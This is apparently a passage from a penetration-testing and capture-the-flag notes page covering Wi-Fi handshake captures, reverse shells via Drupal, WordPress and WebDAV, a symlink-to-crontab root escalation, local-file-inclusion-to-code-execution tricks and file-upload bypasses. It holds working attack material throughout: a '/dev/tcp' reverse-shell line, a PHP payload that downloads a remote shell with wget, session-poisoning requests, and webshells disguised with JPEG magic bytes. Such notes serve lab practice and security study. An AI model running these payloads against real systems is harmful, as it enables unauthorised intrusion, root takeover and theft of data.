   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* Have a web-accessible git ? utilize `dvcs-ripper <https://github.com/kost/dvcs-ripper>`_ to rip web accessible (distributed) version control systems: SVN, GIT, Mercurial/hg, bzr. It can rip repositories even when directory browsing is turned off. Eric Gruber has written a blog on `Dumping Git Data from Misconfigured Web Servers <https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/>`_ providing good walkthru.

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'

* It's always important to note down all the passwords found during the process of exploiting a vulnerable machine as there is a great possibility that passwords would be reused.
 
* If you have .jar file, Probably use jd-gui to decompile and view the class file. 


* Find recently modified files:

  ::

   find / -mmin -10 -type f 2>/dev/null

  The above will show you which files have been modified within the last 10 minutes, which could help you find out whether an important config file, or log file has been modified.

* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module. Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next, we create a new block (by going to Blocks, under the Structure menu) with the following content. We make sure to select PHP code from the Text format drop down. Taken from `Droopy Vulnhub WriteUp <https://g0blin.co.uk/droopy-vulnhub-writeup/>`_
   Drupal settings file location: /var/www/html/sites/default/settings.php
 
 * WordPress : If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy. Probably, squid proxy server would be running. If it is the squid configuration file is /etc/squid/squid.conf

* Running Asterisk/ Elastix/ FreePBX or any PBX, probably try `SIPVicious <https://github.com/EnableSecurity/sipvicious>`_  suite is a set of tools that can be used to audit SIP based VoIP systems. Running http:\\IP\panel should provide us valid extensions.

* Sharepoint running? Probably, check `SPartan <https://github.com/sensepost/SPartan>`_ Frontpage and Sharepoint fingerprinting and attack tool and `SharePwn <https://github.com/0rigen/SharePwn>`_ SharePoint Security Auditor.

* Want to send a email via the SMTP server something like SMTP-Open-Relay utilize `Swaks <http://www.jetmore.org/john/code/swaks/>`_ Swiss Army Knife for SMTP.

  ::

   swaks --to xxxxx@example.com --from xxxxxee@example.edu --server 192.168.110.105:2525 --body "Hey Buddy How are you doing" --header "Subject: Hello! Long time"

* Got /etc/shadow file?, utilize /etc/passwd with unshadow command and use john or cudahashcat to crack passwords.

 ::

  unshadow passwd shadown

* If IIS and WebDav with PUT and MOVE method are enabled, we can use testdav to see which files are allowed 

 ::

  davtest -url http://10.10.10.15/
  ********************************************************
   Testing DAV connection
  OPEN		SUCCEED:		http://10.10.10.15
  ********************************************************
  NOTE	Random string for this session: E3u9ISnNswYes0
  ********************************************************
   Creating directory
  MKCOL		SUCCEED:		Created http://10.10.10.15/DavTestDir_E3u9ISnNswYes0
  ********************************************************
   Sending test files
  PUT	pl	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT	asp	FAIL
  PUT	aspx	FAIL
  PUT	cgi	FAIL
  PUT	html	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT	cfm	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT	jhtml	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT	shtml	FAIL
  PUT	php	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT	jsp	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT	txt	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  ********************************************************
   Checking for test file execution
  EXEC	pl	FAIL
  EXEC	html	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  EXEC	cfm	FAIL
  EXEC	jhtml	FAIL
  EXEC	php	FAIL
  EXEC	jsp	FAIL
  EXEC	txt	SUCCEED:	http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  
  ********************************************************
  /usr/bin/davtest Summary:
  Created: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.pl
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.cfm
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jhtml
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.php
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.jsp
  PUT File: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
  Executes: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.html
  Executes: http://10.10.10.15/DavTestDir_E3u9ISnNswYes0/davtest_E3u9ISnNswYes0.txt
 
 Now, we can see that pl, html, txt and other files can be uploaded. Now, if the MOVE method is enabled, we can upload a php meterpreter in a text file and then MOVE the .txt file to .php and execute the php file.

* In one of the VM, one of the task was to capture the RAM of the system by using LiME ~ Linux Memory Extractor ( which is executed by suid binary with root privileges ). Let's say the ramdump was saved at

  ::

   /tmp/ramdump

  If, you create a symlink from /tmp/ramdump to /etc/crontab

  ::

   ln -s /etc/crontab /tmp/ramdump

  Now, when the ramdump is taken, lime will now dump the content of RAM straight into /etc/crontab. As crontab will ignore everything which doesn’t match the correct syntax. If the memory contains a injected string such as 

  ::

   cat cron.py
   print "* * * * * root /bin/bash /home/username/evilscript"
  
  the injected string will end up in /etc/crontab will be executed.

  The contents of evilscript can be

  ::

   /bin/bash -i >& /dev/tcp/IP/Port 0>&1

  which will provide the root shell to the attacker. Thanks to TheColonial :)
   
* Handy Stuff

 * Utilize xxd to convert hex to ascii

  ::

   xxd -r -p
   -p | -ps | -postscript | -plain : output in postscript continuous hexdump style. Also known as plain hexdump style.
   -r | -revert : reverse operation: convert (or patch) hexdump into binary.  If not writing to stdout, xxd writes into its output file without truncating it. Use the combination -r -p to read plain hexadecimal dumps without line number information and without a particular column layout. Additional Whitespace and line-breaks are allowed anywhere.

 * Use python

  * binascii.unhexlify(hexstr) to convert hex to string
  * base64.decodestring(str) to decode base64 string
  * Convert number to hex

   :: 
     
      hex(15)
      '0xf'

  * Convert hex to decimal

   ::

    s = "6a48f82d8e828ce82b82"
    i = int(s, 16)

 * Getting out of more
  
  If in somecase, we are unable to ssh into the machine or being logged out when trying ssh, check the /etc/passwd file for the shell defined for that user.

  ::
   
    cat /etc/passwd | grep user1
    user1:x:11026:11026:user level 1:/home/user1:/usr/bin/showtext

  Here Instead of /bin/bash, user1 is using /usr/bin/showtext, which is apparently not a shell. Let’s look at the content of the file

  ::

    cat /usr/bin/showtext
    #!/bin/sh
    more ~/text.txt
    exit 0

  In such cases, First, minimize your terminal so that when we are logged into user1 via ssh command, the large text will force a “more” message to prompt us to continue the output. Now that we have forced the terminal to prompt us to continue the display via “more” or “–More–(50%)” in this case, press “v” to enter “vim”, a built-in text editor on Unix machines. Once, we have vim interface, use :shell to get a shell.

 * List all the files together

  ::

   find /home -type f -printf "%f\t%p\t%u\%g\t%m\n" 2>/dev/null | column -t
 

Cyber-Deception
===============

Wordpot
-------

`Wordpot <https://github.com/gbrindisi/wordpot>`_ : Wordpot is a Wordpress honeypot which detects probes for plugins, themes, timthumb and other common files used to fingerprint a wordpress installation.

::

 python /opt/wp/wordpot.py --host=$lanip --port=69 --title=Welcome to XXXXXXX Blog Beta --ver=1.0 --server=XXXXXXXWordpress

FakeSMTP
--------

`FakeSMTP <http://nilhcem.com/FakeSMTP/>`_ : FakeSMTP is a Free Fake SMTP Server with GUI for testing emails in applications easily.

::

  java -jar /opt/fakesmtp/target/fakeSMTP-2.1-SNAPSHOT.jar -s -b -p 2525 127.0.0.1 -o /home/username

Rubberglue
----------

`Rubberglue <https://github.com/adhdproject/adhdproject.github.io/blob/master/Tools/Rubberglue.md>`_ : We can use Rubberglue to listen on a port such that any traffic it receives on that port it will forward back to the client ( attacker ) on the same port.

::

  python2 /opt/honeyports/honeyports-0.4.py -p 23

Knockd
------

`Knockd - Port-knocking server <http://www.zeroflux.org/projects/knock>`_ : knockd is a port-knock server. It listens to all traffic on an ethernet (or PPP) interface, looking for special "knock" sequences of port-hits. A client makes these port-hits by sending a TCP (or UDP) packet to a port on the server. This port need not be open -- since knockd listens at the link-layer level, it sees all traffic even if it's destined for a closed port. When the server detects a specific sequence of port-hits, it runs a command defined in its configuration file. This can be used to open up holes in a firewall for quick access.

If there is port knocking involved, read the /etc/knockd.conf, read the sequence port know should be done and execute

::

 for PORT in 43059 22435 17432; do nmap -PN 192.168.56.203 -p $PORT; done

DCEPT
-----

SecureWorks researchers have created a solution known as `DCEPT (Domain Controller Enticing Password Tripwire) <https://www.secureworks.com/blog/dcept>`_ to detect network intrusions. Github is `dcept <https://github.com/secureworks/dcept>`_ 

Useful Tools
============

* `exe2hex <https://github.com/g0tmi1k/exe2hex>`_ : Inline file transfer using in-built Windows tools (DEBUG.exe or PowerShell). 

* `Powercat <https://github.com/secabstraction/PowerCat>`_ : A PowerShell TCP/IP swiss army knife that works with Netcat & Ncat

Appendix-I : Local File Inclusion
=================================

Local File Inclusion (LFI) is a type of vulnerability concerning web server. It allow an attacker to include a local file on the web server. It occurs due to the use of not properly sanitized user input.

Tools
-----

To test LFI, RFI, we can also use `Uniscan <http://tools.kali.org/web-applications/uniscan>`_ Uniscan is a simple Remote File Include, Local File Include and Remote Command Execution vulnerability scanner. 

::

  uniscan -h
  OPTIONS:
    -h  help
    -u  <url> example: https://www.example.com/
    -f  <file> list of url's
    -b  Uniscan go to background
    -q  Enable Directory checks
    -w  Enable File checks
    -e  Enable robots.txt and sitemap.xml check
    -d  Enable Dynamic checks
    -s  Enable Static checks
    -r  Enable Stress checks
    -i  <dork> Bing search
    -o  <dork> Google search
    -g  Web fingerprint
    -j  Server fingerprint

  usage:
  [1] perl ./uniscan.pl -u http://www.example.com/ -qweds
  [2] perl ./uniscan.pl -f sites.txt -bqweds
  [3] perl ./uniscan.pl -i uniscan
  [4] perl ./uniscan.pl -i "ip:xxx.xxx.xxx.xxx"
  [5] perl ./uniscan.pl -o "inurl:test"
  [6] perl ./uniscan.pl -u https://www.example.com/ -r

There's another tool called `fimap <https://tools.kali.org/web-applications/fimap>`_. However, it is better to check the source of uniscan for LFI and see what it is trying and try that with curl specially if cookies are required to set (in case of authenticated LFI). Personally, I tried Uniscan and for some reason cookie feature was not working and fimap only support POST parameter in cookie no GET.

.. Note :: Also, if we have unprivileged user shell or an ability to store a file somewhere in the filesystem, however don't have permission to write in /var/www/html but does have LFI, we can still write (php meterpreter shell) in /tmp or user home directory and utilize LFI to get a reverse shell.

Filtering in LFI
^^^^^^^^^^^^^^^^

Sometimes, there might be some filtering applied by default. For example: filename=secret.txt, here it is possible that it will only read files named secret.txt or with extension .txt. So, may be rename your payload accordingly. 

For example: the below code only includes the file which are named secret
::

 <?php
   $file = @$_GET['filname'];
   if(strlen($file) > 55)
      exit("File name too long.");
   $fileName = basename($file);
   if(!strpos($file, "secret"))
     exit("No secret is selected.");
   echo "<pre>";
   include($file);
   echo "</pre>";
 ?>

LFI to Remote Code Execution
----------------------------

Mainly taken from `LFI-Cheat-Sheet <https://highon.coffee/blog/lfi-cheat-sheet/>`_ , `Exploiting PHP File Inclusion – Overview <https://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/>`_ and `Upgrade from LFI to RCE via PHP Sessions <https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/>`_

There are variety of different tricks to turn your LFI into RCE. Using 

File upload forms/ functions
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Figure out if there are any upload forms or functions, we will upload your malicious code to the victim server, which can be executed.

PHP wrapper expect://command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Allows execution of system commands via the php expect wrapper, unfortunately this is not enabled by default.

An example of PHP expect:

::

 http://IP/fileincl/example1.php?page=expect://ls

If PHP expect wrapper is disabled, below error is encountered.

::

 Warning: include(): Unable to find the wrapper "expect" - did you forget to enable it when you<br> configured PHP? in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Unable to find the<br> wrapper "expect" - did you forget to enable it when you configured PHP? in <br> /var/www/fileincl/example1.php on line 7 
 Warning: include(expect://ls): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 
 Warning: include(): Failed opening 'expect://ls' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7

PHP wrapper php://file
^^^^^^^^^^^^^^^^^^^^^^
PHP wrapper php://filter
^^^^^^^^^^^^^^^^^^^^^^^^

php://filter is a kind of meta-wrapper designed to permit the application of filters to a stream at the time of opening. This is useful with all-in-one file functions such as readfile(), file(), and file_get_contents() where there is otherwise no opportunity to apply a filter to the stream prior the contents being read.

The output is encoded using base64, so you’ll need to decode the output.

::

 http://IP/fileincl/example1.php?page=php://filter/convert.base64-encode/resource=../../../../../etc/passwd

or

We could use php filter to read the source code of a PHP File

:: 

  http://xqi.cc/index.php?m=php://filter/read=convert.base64-encode/resource=index.php

More information can be found at `Using PHP for file inclusion <https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/>`_

PHP input:// stream
^^^^^^^^^^^^^^^^^^^

php://input allows you to read raw POST data. It is a less memory intensive alternative to $HTTP_RAW_POST_DATA and does not need any special php.ini directives. php://input is not available with enctype=”multipart/form-data”.

Send your payload in the POST request using curl, burp.

Example:

::

 http://IP/fileincl/example1.php?page=php://input


Post Data payload:

::

  <? system('wget http://IP/php-reverse-shell.php -O /var/www/shell.php');?>

After uploading execute the reverse shell at 

::

 http://IP/shell.php

data://text/plain;base64,command
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

/proc/self/environ
^^^^^^^^^^^^^^^^^^

If it’s possible to include /proc/self/environ from your vulnerable LFI script, then code execution can be leveraged by manipulating the User Agent parameter with Burp. After the PHP code has been introduced /proc/self/environ can be executed via your vulnerable LFI script.

/proc/self/fd
^^^^^^^^^^^^^

If it’s possible to introduce code into the proc log files that can be executed via your vulnerable LFI script. Typically you would use burp or curl to inject PHP code into the referer.

This method is a little tricky as the proc file that contains the Apache error log information changes under /proc/self/fd/ e.g. /proc/self/fd/2, /proc/self/fd/10 etc. 
Utilize `LFI-LogFileCheck.txt <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion%20-%20Path%20Traversal/Intruders/LFI-LogFileCheck.txt>`_ with Burp Intruder, and check for the returned page sizes.

Control over PHP Session Values
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say, a vulnerable page is present with the post request

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 44
 Connection: close
 Upgrade-Insecure-Requests: 1
 
 login=1&user=admin&pass=admin&lang=en_us.php

with LFI

::

 login=1&user=admin&pass=admin&lang=../../../../../../../../../../etc/passwd

Now, the server store cookies

::

 Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
 Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
 Set-Cookie: pass=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly

As we know PHP5 stores it’s session files by default under /var/lib/php5/sess_[PHPSESSID]. (If not, do check phpinfo and figure out the location of temp files) – so the above issued session “i56kgbsq9rm8ndg3qbarhsbm27” would be stored under /var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

Now, we can write the cookie with a php command

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27
 Content-Length: 134
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=<?php system("cat /etc/passwd");?>&pass=password&lang=en_us.php

This would result in 

::

 Set-Cookie: user=%3C%3Fphp+system%28%22cat+%2Fetc%2Fpasswd%22%29%3B%3F%3E; expires=Mon, 13-Aug-2018 20:40:53 GMT; path=/; httponly

Now, the php command can be executed using

::

 POST /upload/? HTTP/1.1
 Host: vulnerable.redacted.com
 User-Agent: Mozilla/5.0 (Windows NT 6.3; rv:36.0) Gecko/20100101 Firefox/36.04
 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 Accept-Language: en-US,en;q=0.5
 Content-Type: application/x-www-form-urlencoded
 Content-Length: 141
 Connection: close
 Upgrade-Insecure-Requests: 1

 login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27

The session file could again afterwards be included using the LFI (note that you need to remove the cookie from the request, otherwise it would get overwritten again and the payload would fail)

Email Server 
^^^^^^^^^^^^


Appendix-II File Upload
=======================

Examples
--------

Simple File Upload
^^^^^^^^^^^^^^^^^^

Intercepting the request in Burp/ ZAP and changing the file-extension.

Below is the PHP code

::

  <?  

  function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
  } 

  function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
  } 

  function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
  } 

  if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
  } else { 
  ?> 
  <form enctype="multipart/form-data" action="index.php" method="POST">  
  <input type="hidden" name="MAX_FILE_SIZE" value="1000" />  
  <input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />  
  Choose a JPEG to upload (max 1KB):<br/>  
  <input name="uploadedfile" type="file" /><br />  
  <input type="submit" value="Upload File" />  
  </form>  
  <? } ?>   

If we change the extension of filename tag from JPG to PHP, we may be able to execute code remotely.

* Create a fake JPG containing php code.

  We’ll be using system() to read our password.

 ::

   echo "<?php system($_GET["cmd"]); ?>" > shell.jpg  

* Upload JPG, intercept in Burp/ ZAP and change the extension

 ::

   <input name="filename" value="o0xn5q93si.jpg" type="hidden">  

  is changed to

 ::

  <input name="filename" value="o0xn5q93si.php" type="hidden">  

Simple File Upload - With verifying image type
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In this the above PHP code remain almost the same apart from little addition that we check the filetype of the file uploaded

::

  <?php  
  ...  
  
  else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {  
        echo "File is not an image";  
    }  
  
  ...  
  
  ?> 

Since the exif_imagetype function checks the filetype of the uploaded file. It checks the first bytes of an image are against a signature. Most filetypes such as JPEG, ZIP, TAR, etc. have a "Magic Number" at the beginning of the file to help verify its file type. So to pass the exif_imagetype function check, our file must start with the magic number of a supported image format.

* Take a valid file (JPG or whichever file format, we are trying to bypass), take the valid hexdump of that file (Let's say first 100 bytes)

 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg

   -n length         : Interpret only length bytes of Input
   -e format_string  : Specify a format string to be used for displaying data

 Example:
 
 ::

   hexdump -n 100 -e '100/1 "\\x%02X" "\n"' sunflower.jpg
   \xFF\xD8\xFF\xE0\x00\x10\x4A\x46\x49\x46\x00\x01\x01\x01\x01\x2C\x01\x2C\x00\x00\xFF\xE1\x00\x16\x45\x78\x69\x66\x00\x00\x4D\x4D\x00\x2A\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\xFF\xDB\x00\x43\x00\x05\x03\x04\x04\x04\x03\x05\x04\x04\x04\x05\x05\x05\x06\x07\x0C\x08\x07\x07\x07\x07\x0F\x0B\x0B\x09\x0C\x11\x0F\x12\x12\x11\x0F\x11\x11\x13\x16\x1C\x17\x13\x14\x1A\x15\x11\x11\x18\x21\x18\x1A\x1D\x1D\x1F
  
* Create a file with JPG header and command shell code using python

  ::

   >>> fh = open('shell.php','w')  
   >>> fh.write('The Hexdump from above \xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>')  
   >>> fh.close()   

.. Tip :: Do check the source code of the page for any client-side file validation or any commented hidden parameters?

.. disqus::
